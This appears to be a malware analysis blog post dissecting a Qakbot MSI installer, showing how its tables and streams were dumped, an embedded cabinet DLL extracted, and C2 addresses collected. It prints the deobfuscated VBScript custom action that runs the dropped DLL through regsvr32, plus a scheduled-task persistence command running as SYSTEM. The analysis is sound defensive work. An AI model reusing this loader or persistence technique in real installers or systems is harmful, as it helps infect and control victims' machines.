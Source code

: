 ```yaml
---
title: "QakbotMSI"
date: 2022-06-21T18:11:53-04:00
draft: true
---
```


### Executive Summary

- In mid-April 2022, Mandiant observed UNC2500 campaigns using MSI packages to distribute Qakbot payloads.
- This change comes shortly after Microsoft’s announcement that macros from Office documents downloaded from the internet (ZoneIdentifier ADS) will be blocked by default.
- This new payload uses a botnet ID **AA,** which is unique from previous campaigns that have used **tr**, **cullinan**, and **cullinan01**.
- Distribution came from phishing emails containing a malicious link from either OneDrive or files hosted on compromised websites that downloads a ZIP archive. That archive contains a Windows Installer Package (MSI) file. When the user executes the MSI file, a Qakbot DLL contained within an embedded Windows Cabinet File (CAB)  is executed.

### Analysis

This sample was originally published by @pr0xylife. 

I downloaded the MSI sample on both Remnux and FlareVM for static and dynamic analysis respectively. 

[https://twitter.com/pr0xylife/status/1521445754216267776](https://twitter.com/pr0xylife/status/1521445754216267776)

First is to just look at the file properties to see if there are any immediate indicators. An organization and an email. 

![Untitled](/Qakbot/Untitled.png)

`msidump` will dump all streams and tables from the MSI file. `oledump` can also be used and I’ll show an example of that too, but I found `msidump` just makes things a bit easier.

### Streams and Tables

Every .idt file below is a table. More specifically, an Installer Database Table. Using the `-s` and `-t` flag, **_Tables** and **_Streams** are outputted below. 

**_Tables** table lists all tables (.idt files) in the database. 

**_Streams** table lists embedded OLE data streams. It is a temporary table created only when referenced by a SQL statement. 

**Binary** folder is used to store data from `Binary.idt`. The binary table holds binary data for items like bitmaps, animations, and icons. It’s also used to store data for **custom actions** (more on this later)**.** 

### msidump

![Untitled](/Qakbot/Untitled%201.png)

![Untitled](/Qakbot/Untitled%202.png)

- `*.idt` are database files containing table data.
- `Binary/` and `_Streams/` hold executable and stream data.

### Oledump Example

`msidump` above gave a lot of useful information quickly, but as stated, MSI files contain OLE stream data, so `oledump` could be used as well.

Most of the text below is unreadable (for those that aren’t bilingual) but what’s more important is the middle column signifying stream byte size. 

![Untitled](/Qakbot/Untitled%203.png)

Going for the largest stream first seems profitable, so I’ll start with 4. 

![Untitled](/Qakbot/Untitled%204.png)

Ignore the broken pipe error. Main thing to focus on is the `MSCF` file signature which is a **Microsoft Cabinet Archive File.** Keep note of this.

Next is stream 5, but I won’t go further since the rest of the analysis was done using `msidump`. 

![Untitled](/Qakbot/Untitled%205.png)

The `BM` file signature is for bitmap images. Possibly for something in the MSI application window? 

Anyways, that was just an example of using `oledump.py`. It’s a bit more tedious to get table data, but it’s still possible. I’d just rather have all files readily available to look at. Back to the real task.

### More Tables

The **CustomAction** file can often contain malicious code for further execution, so that’s a good one to check first. 

![Untitled](/Qakbot/Untitled%206.png)

`DIRCA_TARGETDIR` notes something gets installed to the `%LOCALAPPDATA%\ProductName` folder. This at least gives a location to check on Windows machines for file creation. 

Note: [ProductName] is a placeholder for the actual package getting installed. As seen in the embedded tweet above, the package is called SetupTest, so something will evidently get installed to `%localappdata%\SetupTest`.  

That line above `DIRCA_TARGETDIR` points to a binary stream which may give more details about the action. 

Listing the stream data gives some obfuscated output.

![Untitled](/Qakbot/Untitled%207.png)

But thanks to this [tweet](https://twitter.com/ankit_anubhav/status/1521473716332339200?s=20&t=Bgp9wbsMNh2-k3FyXotADQ), a few find/replace operations in CyberChef can clear up the output a bit. Luckily this stream was lightly obfuscated. 

![Untitled](/Qakbot/Untitled%208.png)

Cleaned up output. Looking at line 4, now we know the name of the directory and a specific file written to it. This eases the dynamic analysis a bit on the Windows machine. 

```jsx
EVUCQUJ8D4 = EVUCQUJ8D4 & "VZUMLKCQLE = VZUMLKCQLE & ""Set objShell = CreateObject( """"WScript.Shell"""" )"" & Vbcrlf" & Vbcrlf
EVUCQUJ8D4 = EVUCQUJ8D4 & "VZUMLKCQLE = VZUMLKCQLE & ""Dim reg"" & Vbcrlf" & Vbcrlf
EVUCQUJ8D4 = EVUCQUJ8D4 & "VZUMLKCQLE = VZUMLKCQLE & ""reg = """"regsvr32.exe """""" & Vbcrlf" & Vbcrlf
EVUCQUJ8D4 = EVUCQUJ8D4 & "VZUMLKCQLE = VZUMLKCQLE & ""objShell.run reg & objShell.ExpandEnvironmentStrings(""""%localappdata%"""" & """"\SetupTest\"""" & """"5.dll"""")"" & Vbcrlf" & Vbcrlf
EVUCQUJ8D4 = EVUCQUJ8D4 & "VZUMLKCQLE = Replace(VZUMLKCQLE, """", """")" & Vbcrlf
EVUCQUJ8D4 = EVUCQUJ8D4 & "Execute VZUMLKCQLE" & Vbcrlf
EVUCQUJ8D4 = Replace(EVUCQUJ8D4, "", "")
```

Next is the Property table. 

![Untitled](/Qakbot/Untitled%209.png)

Nothing...time to switch to `_Streams`. Sometimes the Manufacturer key can list interesting details, but not this time.

![Untitled](/Qakbot/Untitled%2010.png)

A **Microsoft Archive Cabinet File**? Where was that seen before? (hint: oledump)

Since it’s an archive file, time to use 7z to extract it.

![Untitled](/Qakbot/Untitled%2011.png)

Finally getting somewhere. A new file (`_699ADF8C0A7E43ED9D8607CA4CFAFB26`) was extracted and it is a PE32 executable DLL. This further proves the output from that obfuscated code in CyberChef. 

After grabbing the MD5 of the DLL, it appears on MalwareBazaar.

![Untitled](/Qakbot/Untitled%2012.png)

Remember above how the CustomAction.idt file showed a target directory. Well...

![Untitled](/Qakbot/Untitled%2013.png)

There’s the same .dll pulled from the `_Streams` directory. `SetupTest` is the ProductName within `LocalAppDataFolder\ProductName`. 

The sample is heavily packed with an entropy of 7.69 so I’ll view sandbox details instead. The sample on intezer was downloaded to `%localappdata%\Temp` instead of `%localappdata%\SetupTest` but besides that, everything else is the same. 

[](https://analyze.intezer.com/analyses/42429a7f-36f2-4977-909b-ba67d0398810/genetic-analysis)

```jsx
"C:\Windows\System32\rundll32.exe" "C:\Users\<USER>\AppData\Local\Temp\<ANALYZED-FILE-NAME>",#1
	C:\Windows\SysWOW64\explorer.exe
		"C:\Windows\system32\schtasks.exe" /Create /RU "NT AUTHORITY\SYSTEM" /tn okebdbmlat /tr "regsvr32.exe -s \"C:\Users\<USER>\AppData\Local\Temp\<ANALYZED-FILE-NAME>\"" /SC ONCE /Z /ST 19:48 /ET 20:00
			C:\Windows\system32\svchost.exe -k netsvcs
```

### Network Activity

Using FakeNetNG, I was able to capture some IPs albeit with different host IDs but sharing the same ASN. So new IOCs!

- 24.55.67[.]41
- 82.152.39[.]49
- 92.132.172[.]110
- 186.64.67[.]30
- 203.122.46[.]188

### Conclusion

This Qakbot sample shows threat actors are moving fast to find new infection vectors that aren’t Office macros given the recent crackdown from Microsoft. I showed a few ways to pull details from an MSI file and luckily even got some new IOCs. Qakbot isn’t the first to adapt to this though. Prior MSI files include:

- [Arkei](https://malpedia.caad.fkie.fraunhofer.de/details/win.arkei_stealer)
- [NjRAT](https://malpedia.caad.fkie.fraunhofer.de/details/win.njrat)
- [STRRAT](https://malpedia.caad.fkie.fraunhofer.de/details/jar.strrat)

---

### IOCs

[Qakbot/Qakbot_AA_03.05.2022.txt at main · pr0xylife/Qakbot](https://github.com/pr0xylife/Qakbot/blob/main/Qakbot_AA_03.05.2022.txt)

### References

[MalwareBazaar | Browse malware samples](https://bazaar.abuse.ch/sample/8cc8f32b2f44e84325e5153ec4fd60c31a35884220e7c36b753550356d6a25c8/)

[MalwareBazaar | Browse malware samples](https://bazaar.abuse.ch/sample/0150eb84d16f0330b2952c9c722fbf55e47d9697b27de9335de6113556e9b317/)

[Filesec.io](https://filesec.io/msi)

[Filesec.io](https://filesec.io/cab)

[Database Tables - Win32 apps](https://docs.microsoft.com/en-us/windows/win32/msi/database-tables)

[Analyzing a Stealer MSI using msitools](https://forensicitguy.github.io/analyzing-stealer-msi-using-msitools/)
